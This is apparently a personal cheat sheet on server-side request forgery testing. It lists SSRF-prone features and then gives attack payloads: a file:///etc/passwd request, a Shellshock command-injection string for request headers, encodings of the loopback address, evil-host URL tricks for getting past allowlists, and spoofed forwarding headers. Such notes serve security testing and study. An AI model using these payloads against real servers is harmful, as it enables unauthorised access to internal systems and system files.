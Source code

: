 # SSRF 

	SSRF : Server-Side Request-Forgery
```
file:///etc/passwd
```
- most functionalities vuln to SSRF
```
First Request Line: 0.8%
Host header : 1.6%
Routing bug : 2.4%
Sensetive Integration : 3.2%
Headless browser : 5.6%
Securiy mechanism / library bug : 5.6%
Proxy: 6.5%
Webhooks : 6.5%
File storage integration : 7.3%
File upload : 13.7%
import by URL : 17.7%
App-specific/unknown : 27.4%

```
###### techniques:
- find administrative page,action
- fuzz for internal server
- always test refferer and user-agent headers
	- shellshock: `() { :; }; whoami`, more on [owasp](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)

###### defense bypass techniques:
- bypass black-listed input defense using other alternative like:
	- `2130706433` - `017700000001` - `127.1` - list from github 
- bypass white-listed input defense using features for ad hoc parsing and validation of urls:
	- `https://expected-host@evil-host` - `https://evil-host#expected-host` - `https://expected-host.evil-host` - URL-encode - combain them together 
	- read [more](https://portswigger.net/web-security/ssrf#:~:text=SSRF%20with%20whitelist%2Dbased%20input%20filters) on portswigger about white-listed input defense bypass
- ###### [URL PARSING INCONSISTENCIES](https://claroty.com/wp-content/uploads/2022/01/Exploiting-URL-Parsing-Confusion.pdf) pdf 
- multi slashes at url pegin
- use backslashes instead of using slashes 
- try to use pages redirection to access internal servers 
- example of how python libs treat urls
- try mutation headers like `X-Forwarded-For abcd: z` - `X-Forwared-For: 10.0.0.1`   
- X-Forwarded-For: 127.0.0.1
- X-Client-IP: 127.0.0.1
- Client-IP: 127.0.0.1
- X-HTTP-Method-Override: PUT
- some techniques parsers will not handle correctly:
```HTTP
GET / HTTP/1.1
https://127.0.0.1:11211:80/ 
http://foo@evil.com:80@google.com/
'\\o\\r\\a\\n\\g\\e.t\\w'

```
- A new Era of [SSRF](https://youtu.be/D1S-G8rJrEk)
- A new Era Of SSRF [whitepaper](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf )
![[python-libs-url-specification.png]]
- ![[host smuggling in curl - SSRF.png]]
- ![[host smuggling - SSRF.png]]

